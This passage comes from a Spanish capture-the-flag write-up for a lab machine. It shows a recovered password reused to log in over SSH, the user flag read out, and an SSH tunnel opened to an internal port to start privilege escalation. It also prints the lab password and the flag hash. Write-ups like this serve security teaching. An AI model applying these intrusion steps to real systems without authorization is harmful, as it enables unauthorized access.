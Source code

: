 Por lo que vemos la contraseña es `iluvdannymorethanyouknow`, vamos a probarla por `SSH` a ver si fuera la del usuario a nivel de sistema tambien:

```shell
ssh cobble@<IP>
```

Metemos como contraseña `iluvdannymorethanyouknow`...

```
Linux cobblestone 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
cobble@cobblestone:~$ whoami
```

Vemos que ha funcionado por lo que leeremos la `flag` del usuario:

> user.txt

```
cad661c47e4eac435aef2dfb6db18367
```

## Escalate Privileges

Recordemos que encontramos el puerto `25151` que es interesante, ya que tenemos acceso por `SSH` vamos a tunelizar dicho puerto de esta forma:

```shell
ssh -L 25151:127.0.0.1:25151 cobble@<IP>
```

Metemos como contraseña `iluvdannymorethanyouknow` y con esto veremos que estamos dentro, ahora si desde el `host` los puertos que tenemos:

```shell
ss -tuln
```

Info:

```
Netid                     State                       Recv-Q                      Send-Q                                                Local Address:Port                                            Peer Address:Port
udp                       UNCONN                      0                           0                                                           0.0.0.0:35334                                                0.0.0.0:*
tcp                       LISTEN                      0                           128                                                       127.0.0.1:25151                                                0.0.0.0:*
tcp                       LISTEN                      0                           4096                                                      127.0.0.1:37537                                                0.0.0.0:*
tcp                       LISTEN                      0                           128                                                           [::1]:25151                                                   [::]:*
tcp                       LISTEN                      0                           50                                               [::ffff:127.0.0.1]:8080                                                       *:*
tcp                       LISTEN                      0                           50                                               [::ffff:127.0.0.1]:33711                                                      *:*
```
